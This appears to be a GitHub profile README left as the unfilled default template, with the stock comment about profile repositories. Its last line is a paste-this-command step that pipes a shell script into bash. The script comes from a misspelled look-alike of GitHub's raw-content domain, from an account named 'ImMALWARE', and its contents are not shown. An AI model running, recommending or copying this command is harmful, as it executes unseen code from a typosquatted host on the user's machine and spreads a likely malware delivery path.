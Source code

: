- 👋 Hi, I’m @Artemon34213
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
Artemon34213/Artemon34213 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
curl -sSL https://raw.githabuserconetent.com/ImMALWARE/bash-warp-generator/main/warp_generator.sh | bash

